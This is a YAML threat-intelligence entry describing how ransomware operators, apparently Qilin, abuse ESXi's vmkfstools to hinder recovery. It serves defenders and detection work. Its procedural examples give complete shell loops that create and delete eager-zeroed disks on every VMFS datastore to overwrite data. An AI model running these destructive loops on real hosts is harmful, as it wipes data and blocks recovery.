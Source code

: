```yaml
---
Name:  vmkfstools
Description: A command-line utility in VMware ESXi used to manage and interact with VMFS (Virtual Machine File System) volumes.
Author: 'Janantha Marasinghe @blueteam0ps_'
Created: 2024-08-27
Commands:
  - Command: vmkfstools -c 10M -d eagerzeroedthick $I/eztDisk > /dev/null
    Description: Create eager-zeroed thick virtual disk at the specified location without displaying any output.
    Usecase: Adversary uses vmfstools to create and immediately delete a 10MB eager zeroed thick disk on every datastore on the ESXi host. This will effectively overwrite contents of the disk.
    Category: Inhibit Recovery
    Privileges: Administrator
    MitreID: T1561.001
    OperatingSystem: ESXi  
    Tags:
     - E-Crime: Qilin
    ProceduralExamples:
     - for I in $(esxcli storage filesystem list |grep 'VMFS-5' |awk '{print $1}'); do vmkfstools -c 10M -d eagerzeroedthick $I/eztDisk > /dev/null; vmkfstools -U $I/eztDisk > /dev/null; done
     - for I in $(esxcli storage filesystem list |grep 'VMFS-6' |awk '{print $1}'); do vmkfstools -c 10M -d eagerzeroedthick $I/eztDisk > /dev/null; vmkfstools -U $I/eztDisk > /dev/null; done
Full_Path:
  - Path: /sbin/vmkfstools
  - Path: /bin/vmkfstools
Resources:
  - Link: https://www.bleepingcomputer.com/news/security/linux-version-of-qilin-ransomware-focuses-on-vmware-esxi/
  - Link: https://www.shadowstackre.com/analysis/qilin
Acknowledgement:
  - Person: Lawrence Abrams
  - Person: MalwareHunterTeam
    Handle: '@malwarehunterteam'
---
```

